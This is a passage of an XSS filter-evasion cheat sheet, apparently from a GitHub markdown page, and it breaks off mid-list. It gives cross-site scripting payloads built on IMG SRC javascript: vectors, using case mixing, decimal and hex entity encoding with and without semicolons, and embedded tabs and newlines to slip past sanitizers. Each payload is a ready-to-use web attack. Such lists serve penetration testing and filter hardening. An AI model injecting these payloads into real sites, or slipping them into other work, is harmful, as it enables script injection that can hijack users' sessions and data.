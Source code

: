 # XSS Cheatsheat For Filter Evasion

**Note:** This page is for those who have knowledge of how xss works, if you don't know about xss this will not help you.

## Cheatsheat:
XSS locator (inject this string, view source and search for "XSS", if you see "<XSS" verses "&lt;XSS" it may be vulnerable):
```
'';!--"<XSS>=&{()}
```
Normal XSS:
```
<IMG SRC="javascript:alert('XSS');">
```
No quotes and no semicolon:
```
<IMG SRC=javascript:alert('XSS')>
```
Case insensitive XSS attack vector:
```
<IMG SRC=JaVaScRiPt:alert('XSS')>
```
HTML entities:
```
<IMG SRC=JaVaScRiPt:alert(&quot;XSS&quot;)>
```
UTF-8 Unicode encoding (almost all of these encoding methods work only in Internet Explorer and Opera):
```
<IMG
SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41>
```
Long UTF-8 Unicode encoding without semicolons (this is often effective in XSS that attempts to look for &#XX, since most people don't know about padding - up to 7 numeric charachters total). This is also useful against people who decode against strings like $tmp_string =~ s/.*\&#(\d+);.*/$1/; which incorrectly assumes a semicolon is required to terminate a html encoded string (I've seen this in the wild):
```
<IMG
SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
```

Hex encoding without semicolons (this is also a viable attack against the above string $tmp_string =~ s/.*\&#(\d+);.*/$1/; which assumes that there is a numeric charachter following the pound symbol - which is not true with hex HTML charachters):
```
<IMG
SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
```
Embedded tab to break up XSS. This works in IE and Opera. Some websites claim than any of the chars 09-13 (decimal) will work for this attack. That is incorrect. Only 09 (horizontal tab), 10 (newline) and 13 (carriage return) work. 
The following four XSS examples illustrate this vector:
```
<IMG SRC="jav&#x09;ascript:alert('XSS');">
```
Embedded newline to break up XSS:
```
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
```
Embedded carriage return to break up XSS:
